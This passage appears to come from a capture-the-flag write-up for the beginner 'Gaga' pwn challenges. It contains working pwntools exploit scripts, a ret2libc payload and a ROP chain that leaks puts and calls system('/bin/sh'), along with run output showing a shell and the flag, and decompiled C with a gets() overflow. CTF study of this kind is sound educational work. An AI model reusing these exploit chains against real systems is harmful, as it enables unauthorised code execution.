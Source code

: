 ```python
payload += pack(libc.sym.system)
io.sendline(payload)
```
{: .nolineno }

We get a shell
```bash
$ python3 manual.py
[+] Opening connection to challs.actf.co on port 31302: Done
[+] Puts @ 0x7ff19bf95420
[+] Libc @ 0x7ff19bf11000
[*] Switching to interactive mode
Awesome! Now there's no system(), so what will you do?!
Your input: $ ls
flag.txt
run
$ cat flag.txt
actf{b4by's_f1rst_pwn!_3857ffd6bfdf775e}
```
{: .nolineno }

### Gaga2 - ROP
Using ROP objects the payloads become easier, and we don't have to manually find the gadgets
```python
offset = 72
libc = exe.libc
ret = 0x40101a

io = start()
io.recvuntil(b"input:")
rop = ROP(exe)
rop.raw(b"\x90"*offset)
rop.puts(exe.got.puts)
rop.main()

io.sendline(rop.chain())
puts_leak = u64(io.recvline()[1:].rstrip().ljust(8, b"\x00"))
log.success(f"Puts @ {hex(puts_leak)}")
libc.address = puts_leak - libc.sym.puts
log.success(f"Libc @ {hex(libc.address)}")

rop = ROP(libc)
rop.raw(b"\x90"*offset)
rop.raw(ret)
rop.system(next(libc.search(b"/bin/sh")))
io.sendline(rop.chain())
io.interactive()
```
{: .nolineno }

### Gaga0
Reversing the binary see this `main` function
```c
void main(void) {
  char input [60];
  puts("Welcome to gaga!");
  puts("This challenge is meant to guide you through an introduction to binary exploitation.");
  printf("\nRight now, you are on stage0. Your goal is to redirect program control to win0, which is  at address %p.\n"
         ,win0);
  printf("Your input: ");
  gets(local_48);
  return;
}
```